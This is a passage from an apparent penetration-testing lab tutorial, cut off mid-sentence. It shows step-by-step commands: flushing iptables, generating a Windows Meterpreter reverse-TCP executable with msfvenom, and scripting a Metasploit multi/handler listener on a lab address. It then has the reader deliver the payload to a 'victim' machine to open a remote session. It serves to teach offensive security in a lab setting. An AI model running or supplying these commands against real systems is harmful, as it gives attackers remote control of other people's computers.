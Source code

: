 sudo /sbin/iptables -F
	strategicsec

cd ~/toolz/metasploit
 
./msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=192.168.153.164 -f exe > /home/strategicsec/Desktop/meterpreter.exe
 
sudo chmod 777 /home/strategicsec/Desktop/meterpreter.exe
 
- In the syntax above, we set the payload, set the local host address to connect back too, then redirected the 
malicious payload to our desktop by issuing the correct path. We will also change the permissions on it to 777 just 
to make it easy for us to use WinSCP to copy it over to our Win7 machine.
 
- Next we are going to create a .rc (resource file) file that will automate the process for setting up a listener.
 
- Navigate to the /home/strategicsec/toolz/metasploit/ so that when you create the .rc file you can save it in the 
working directory.
 
 
- Type 'touch meterpreter.rc' to create the file.
touch meterpreter.rc
 
- Type 'echo use exploit/multi/handler  >> meterpreter.rc' to be appended to the .rc file.
echo use exploit/multi/handler  >> meterpreter.rc
 
- Type 'echo set PAYLOAD windows/meterpreter/reverse_tcp  >> meterpreter.rc' to be appended to the .rc file.
echo set PAYLOAD windows/meterpreter/reverse_tcp  >> meterpreter.rc
 
- Type 'echo set LHOST 192.168.153.164>> meterpreter.rc' to be appended to the .rc file.
echo set LHOST 192.168.153.164>> meterpreter.rc
 
- Type 'echo exploit -j -z >> meterpreter.rc' to be appended to the .rc file.
echo exploit -j -z >> meterpreter.rc
 
- Then cat the meterpreter.rc out to verify that everything in the file looks ok.
cat meterpreter.rc
 
Now at the command prompt, type 'sudo ./msfconsole -r meterpreter.rc' to start the msfconsole module and call/run 

the 'meterpreter.rc' file.
./msfconsole -r meterpreter.rc
 
- Once the msfconsole starts, the meterpreter resource file is executed and the listener is automatically setup.  It is now listening for a connection!
 
- Now you must transfer the malicious meterpreter payload to the victim machine (you may do so by any means necessary, we have physical access so we transferred it via usb.
 
- Click on the payload and create the meterpreter session.
 
- Type 'sessions -l' to list your open sessions, and 'sessions -i 1' to indicate that you want to interact with 
